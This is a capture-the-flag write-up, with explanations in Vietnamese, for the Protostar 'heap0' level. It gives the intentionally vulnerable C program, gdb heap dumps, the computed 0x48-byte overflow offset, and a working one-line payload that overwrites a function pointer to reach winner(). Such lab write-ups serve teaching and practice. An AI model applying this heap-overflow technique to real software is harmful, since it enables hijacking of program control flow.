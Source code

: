 # HEAP ZERO

## About

This level introduces heap overflows and how they can influence code flow.

This level is at /opt/protostar/bin/heap0

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

## Solutions

`HEAP ZERO` cho chúng ta thấy cách mà việc heap overflows gây ảnh hưởng tới các biến được cấp phát động và từ đó dẫn tới thay đổi luồng thực thi code.

Bộ cấp phát bộ nhớ được sử dụng trong Protostar là `glibc's malloc`, dựa trên `Doug Lea's malloc` (hay gọi tắt là `dlmalloc`). Bố cục của một biến khi được cấp phát động thông qua con trỏ.

```
     low memory adddress
  | |====================| 
  | |     prev_size      |  |
  | |====================|  | HEAP
  S |        size        |  | grow
  T |====================|  | direction
  A |  base-pointer|'''''|  |
  C |==============|'''''|  |
  K |''''''''''''''''''''|  |
  | |'''''''buffer'''''''|  |
  | |''''''''''''''''''''|  |
  | |====================|  |
  | |                    |  |
  | |....................|  v
      high memory address
```

Nhìn vào đoạn mã của chương trình sau

```
...
struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

int main(){
...
struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;
...
}
```

Ta thấy được khai báo hai con trỏ theo kiểu dữ liệu được định nghĩa với 1 kiểu dữ liệu `data` gồm mảng ký tự `name[64]` và một kiểu `fp` gồm con trỏ hàm. Hai kiểu dữ liệu được cấp phát động, `f->fp = nowinner` được phân bổ như sau trong heap memory.

```
Khi chạy chương trình: $./heap0 aaaa
data is at 0x804a008, fp is at 0x804a050
level has not been passed

...
(gdb) x/100wx 0x804a000         <-- địa chỉ bắt đầu của heap
0x804a000:      0x00000000      0x00000049      0x00000000      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
...

(gdb) p nowinner
$1 = {void (void)} 0x8048478 <nowinner>
```

Tiếp theo đó là strcpy(d->name, argv[1]); sẽ gây ra buffer overflow trên `d->name` và đủ lớn sẽ ghi đè con trỏ hàm `f->fp`. Độ dài đó là `0x804a050 - 0x804a008 = 0x48` và sau đó là địa chỉ hàm `winner()`.

```
(gdb) p winner
$1 = {void (void)} 0x8048464 <winner>
```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# ./heap0 $(python -c 'print "A" * 0x48 + "\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level passed
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>



